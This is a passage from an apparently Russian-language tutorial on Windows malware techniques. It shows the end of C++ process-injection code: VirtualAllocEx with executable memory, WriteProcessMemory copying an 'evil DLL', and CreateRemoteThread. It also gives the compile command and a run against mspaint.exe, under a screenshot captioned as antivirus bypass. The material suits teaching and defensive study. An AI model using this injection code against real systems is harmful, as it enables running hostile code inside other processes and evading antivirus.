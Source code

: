 ```cpp

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, evilLen, (MEM_RESERVE | MEM_COMMIT), 
  PAGE_EXECUTE_READWRITE);

  // "copy" evil DLL between processes
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)lb, rb, 0, 
  NULL);
  CloseHandle(ph);

  return 0;
}
```

### демонстрация "вредоносного" ПО

Давайте продемонстрируем нашу инъекцию.     

Компилируем:      

```bash
x86_64-w64-mingw32-g++ -O2 hack2.c -o hack2.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive -lwtsapi32
```

![обход AV](./images/103/2023-07-08_20-09.png){width="80%"}      

Запускаем для поиска и инъекции в `mspaint.exe`:       

```powershell
.\hack2.exe mspaint.exe
```
